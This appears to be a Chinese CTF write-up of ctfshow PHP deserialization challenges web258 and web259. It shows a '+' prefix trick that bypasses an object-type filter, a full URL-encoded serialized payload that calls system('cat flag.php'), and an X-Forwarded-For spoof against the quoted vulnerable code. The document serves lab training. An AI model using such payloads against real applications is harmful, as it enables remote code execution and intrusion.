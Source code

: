 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141200637.png)

## web258

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141205423.png)

和上一题类似

过滤了 `O:数字:` `C:数字:` 的形式, 可以在数字前面加上 `+` 绕过

然后之前的 private 全部改成 public 了...

```
user=O%3A%2B11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22123%22%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A23%3A%22system%28%22cat+flag.php%22%29%3B%22%3B%7D%7D
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141215613.png)

## web259

flag.php

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

index.php

```php
$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

内部类/原生类的反序列化

参考文章 [https://xz.aliyun.com/t/9293](https://xz.aliyun.com/t/9293)

当时解的时候直接伪造 xff 头就出来 flag 了...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208141632423.png)
